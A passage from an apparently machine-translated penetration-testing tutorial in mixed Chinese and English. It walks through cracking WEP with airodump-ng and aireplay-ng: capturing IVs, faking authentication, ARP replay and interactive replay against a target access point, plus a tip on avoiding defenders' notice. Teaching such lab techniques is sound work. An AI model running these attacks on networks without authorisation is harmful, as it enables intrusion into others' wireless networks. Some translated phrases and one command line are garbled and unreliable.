 4.  启动`airodump-ng`嗅探无线流量并使用以下命令收集 IVs，其中`--bssid`允许我们选择目标的 BSSID，`-c`表示信道，`-w`允许我们写入输出文件的名称（`wep_out`）：

    ```
    root@kali:~# airodump-ng --bssid 00:06:25:9A:A9:C6 -c 6 -w
      wep_out wlan0 

    ```

5.  Now we have to increase the number of transmitted IV packets. Open a second terminal window (do not close the first) and enter the following command to fake an authentication to the targeted wireless access point:

    ```
    root@kali:~# aireplay-ng -1 0 -a 00:06:25:9A:A9:C6 -h 
      00:11:22:33:44:55 -e dd_wep wlan0 

    ```

    此处，`-1`表示假身份验证，`0`表示以秒为单位的重新关联时间（设置`0`可能会提醒防御者，因此攻击者可能会将其设置为 30 或更高）。

6.  With the fake authentication in place, we will generate traffic that appears to come from a trusted MAC address and route it to the target wireless access point.

    ```
    root@kali:~# aireplay-ng -3  -b 00:06:25:9A:A9:C6 -h 
      00:11:22:33:44:55 wlan0 

    ```

    这种攻击称为 ARP 注入或 ARP 重放攻击。通常，目标接入点将重播 ARP 分组，并每次生成一个新的 IV；因此，这是培养必要静脉的快速方法。

    上一个命令的执行如以下屏幕截图所示：

    ![Compromising a WEP encryption](img/3121OS_08_13.jpg)

7.  Let's generate some additional packets while the ARP injection continues. Open another terminal window, and start an interactive packet replay attack by entering the following command:

    ```
    root@kali:~# aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF 
      - b (mac address) -h (mac address) wlan0 

    ```

    这里，`-2`表示我们正在使用交互重放攻击，`-p 0841`设置数据包的帧控制字段，使其看起来像是从无线客户端发送的，`-c FF:FF:FF:FF:FF:FF`设置目的地（在这种情况下，`FF`符号将数据包发送到网络上的所有主机），`-b`是 BSSID 的 MAC 地址，`-h`是正在传输的数据包的 MAC 地址，应与测试仪的 MAC 地址匹配。

    上一个命令的执行如以下屏幕截图所示：
